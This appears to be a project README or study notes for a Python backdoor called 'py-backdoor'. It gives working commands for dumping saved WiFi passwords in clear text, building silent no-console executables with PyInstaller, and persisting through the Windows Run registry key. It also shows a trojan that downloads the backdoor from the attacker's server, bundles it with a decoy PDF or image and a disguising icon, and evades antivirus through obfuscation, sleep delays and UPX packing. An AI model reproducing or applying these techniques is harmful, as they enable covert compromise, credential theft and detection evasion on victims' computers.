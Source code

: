 ## py-backdoor
- Initial Execution
- ![Screenshot 2024-08-07 002050.png](./assets/Screenshot_2024-08-07_002050_1722970918144_0.png)
- Execution after Boot [ Windows-Persistence]
- ![Screenshot 2024-08-07 002322.png](./assets/Screenshot_2024-08-07_002322_1722970924517_0.png)

### </>
- **WiFi-Password Extraction**
	- To show all networks - `netsh wlan show profile`
	- To display details of a particular network - `netsh wlan show profile <network name> key=clear`
### Packaging - Download and Execute
- `Pyinstaller`
	- `pip install pyinstaller` - convert `.py` to executables
		- **note:** architecture of the target and the attack machine must be the same for this to work
		- `pyinstaller client.py --onefile`
		- `pyinstaller backdoor.py --onefile --noconsole -n client.exe`
- **Silent Execution**
	- `sys.exit() # reliable exit -> prevents error message from being displayed`
	- To execute with no console`pyinstaller client.py --onefile --noconsole`
		- `subprocess.check_output()` interacts with `stdio` and `stderr` by default
			- to disable interaction
			  ```
			  DEVNULL = open(os.devnull,'wb')
                          # All I/O will be redirected to DEVNULL
			  return subprocess.check_output(command, 
							shell=True,
							stderr=DEVNULL,
							stdin=DEVNULL)
			  ```
- **Persistence**
	- Key - `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`
		- Fields
			- Name - `/v`
			- Type - `/t`
			- Data - `/d`
	- Modify key
		- `reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Scheduler /t REG_SZ /d C:/Users/user1/AppData/Roaming/scheduler.exe /f`
	- **note**- since the backdoor starts every time the computer starts; if the listener is not running error will be raised -> to prevent this add `try-catch` to `main`
- `troj_exp.py`
	- downloads the image file and runs it
	- checks to see if backdoor is already present in `appdata` directory
	- if not present it downloads the file from the attacker's python server where both thr `.exe` and `image.png` are served
- Disadvantages with previous build
	- The target need an internet connection when running the trojan
	- Malware files have to be accessible via direct URL
### Packaging - Combine Dummy w/ Backdoor
- `pyinstaller --add-data "../dummy/image.png:." --onefile --noconsole backdoor.py -n scheduler.exe`
	- `--add-file` - `src-file-path:.` ; `:.` tell pyinstaller to keep the front files in the default application temp directory
	- The code below executes the front files
	  ```
	  file_name = sys._MEIPASS + "\Resume.pdf"
	  subprocess.call(file_name, shell = True)
	  ```
   	- `_MEIPASS` : the path to the _internal folder within the bundle [ in this case, the Non-Malicious PDF ]
- **mask executable** with `.ICO`
	- `pyinstaller --add-data "../dummy/Template.pdf:." --onefile --noconsole backdoor.py -n Template --icon <path-to-ico-file>`
	- ![image.png](./assets/image_1722969936363_0.png)
### AV-Evasion
- Detection Mechanisms
	- Signature-based bypass measures
		- useless operations - loops, arithmetic etc.
		- encoding and obfuscation
	- Behaviour-based bypass measures
		- Delay execution - use `time.sleep()`
		- Run normal trusted operations before malicious execution
- Compress `exe` - `upx`
	- `./upx /<path-to-backdoor.exe> -o compressed_backdoor.exe`
- `IDAPro` can be used to modify the binary itself
